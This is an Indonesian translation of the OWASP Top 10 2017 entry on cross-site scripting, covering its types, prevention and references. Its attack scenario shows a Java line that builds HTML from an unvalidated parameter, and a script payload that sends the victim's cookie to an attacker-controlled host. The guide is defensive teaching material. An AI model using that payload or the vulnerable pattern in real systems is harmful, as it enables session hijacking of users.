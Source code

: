 # A7:2017 Cross-Site Scripting (XSS)

| Agen ancaman / vektor serangan | Kelemahan Keamanan          | Dampak              |
| -- | -- | -- |
| Akses Lvl: Eksploitasi 3 | Prevalensi 3 : Deteksi 3 | Teknis 2 : Bisnis |
| Tool otomasi dapat  mendeteksi dan melakukan exploit pada semua tiga type XSS, and ada Framework eksploitasi yang tersedia secara gratis. | XSS adalah kerentanan paling umum kedua di OWASP Top 10, dan  masih ditemukan di sekitar dua pertiga dari semua aplikasi. Tool otomasi dapat menemukan beberapa kerentanan XSS secara otomatis, Khususnya dalam aplikasi pemrograman seperti PHP, J2EE / JSP, dan ASP.NET. | Dampak pada XSS untuk kategori medium untuk Reflected XSS dan DOM XSS dan Kritikal untuk stored XSS, dengan eksekusi kode jarak jauh di browser korban, seperti mencuri kredensial, sesi, atau mengirimkan malware ke korban |

## Apakah Aplikasi itu Rentan?

Ada Tiga Jenis XSS, biasanya menargetkan browser pengguna:

* **Reflected XSS**: Aplikasi atau API menyertakan masukan pengguna yang tidak divalidasi dan tidak lolos sebagai bagian dari keluaran HTML. Serangan yang berhasil memungkinkan penyerang mengeksekusi HTML dan JavaScript sewenang-wenang di browser korban. Biasanya pengguna perlu berinteraksi dengan beberapa tautan berbahaya yang mengarah ke laman yang dikendalikan penyerang, seperti situs web watering hole berbahaya, iklan, atau sejenisnya
* **Stored XSS**: Aplikasi atau API menyimpan masukan pengguna yang tidak dibersihkan yang dilihat di lain waktu oleh pengguna lain atau administrator. XSS yang disimpan sering dianggap sebagai risiko tinggi atau kritis.
* **DOM XSS**: Kerangka kerja JavaScript, aplikasi halaman tunggal, dan API yang secara dinamis menyertakan data yang dapat dikontrol penyerang ke halaman rentan terhadap DOM XSS. Idealnya, aplikasi tidak akan mengirim data yang dapat dikontrol penyerang ke JavaScript API yang tidak aman.
Serangan XSS termasuk pencurian sesi user, account takeover, _MFA bypass_, _DOM node replacement_ atau merubah tampilan website target (seperti panel login trojan), 
serangan terhadap browser pengguna seperti unduhan perangkat lunak berbahaya, pencatatan log kunci, dan serangan sisi klien lainnya.

## Bagaimana Cara Pencegahannya

Pencegahan XSS membutuhkan pemisahan pada data yang tidak terpecaya dari konten browser yang aktif. Ini dapat dicapai dengan:

* Menggunakan kerangka kerja yang secara otomatis lolos dari XSS berdasarkan desain, seperti Ruby on Rails terbaru, React JS. Pelajari batasan perlindungan XSS setiap framework dan tangani kasus penggunaan yang tidak tercakup dengan tepat.
* Mengeluarkan semua data yang tidak dipercaya berdasarkan konteks HTML (_body, attribute, JavaScript, CSS, atau URL)_ akan menutup celah Reflected and Stored XSS. Lihat OWASP XSS Prevention Cheat Sheet untuk detail dari teknik mengeluarkan data.
* Menerapkan pengkodean berkonteks peka saat memodifikasi dokumen browser di sisi klien bertindak melawan DOM XSS. Jika hal ini tidak dapat dihindari, teknik pelolosan sensitif konteks serupa dapat diterapkan ke API browser seperti yang dijelaskan di OWASP Cheat Sheet 'DOM based XSS Prevention'.
* Memungkinkan [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)sebagai kontrol mitigasi pertahanan mendalam terhadap XSS. Ini efektif jika tidak ada kerentanan lain yang memungkinkan penempatan kode berbahaya melalui penyertaan file loka (e.g. path traversal menimpa atau pustaka yang rentan dari jaringan pengiriman konten yang diizinkan).

## Contoh Skenario Serangan

**Skenario #1**: Aplikasi menggunakan data tidak tepercaya dalam pembuatan kode HTML berikut tanpa validasi:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
Penyerang memodifikasi parameter ‘CC’ dalam browser menjadi:

`'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Serangan ini disebabkan ID sesi korban untuk dikirim ke situs web penyerang, sehingga memungkinkan penyerang untuk membajak sesi pengguna saat ini.

**Note**: Penyerang dapat menggunakan XSS untuk mengalahkan pertahanan Cross-Site Request Forgery (CSRF) otomatis yang mungkin digunakan aplikasi

## Referensi

### OWASP

* [OWASP Proactive Controls: Encode Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Proactive Controls: Validate Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Application Security Verification Standard: V5](https://owasp.org/www-project-application-security-verification-standard/)
* [OWASP Testing Guide: Testing for Reflected XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
* [OWASP Testing Guide: Testing for Stored XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
* [OWASP Testing Guide: Testing for DOM XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
* [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
* [OWASP Java Encoder Project](https://owasp.org/www-project-java-encoder/)

### External

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
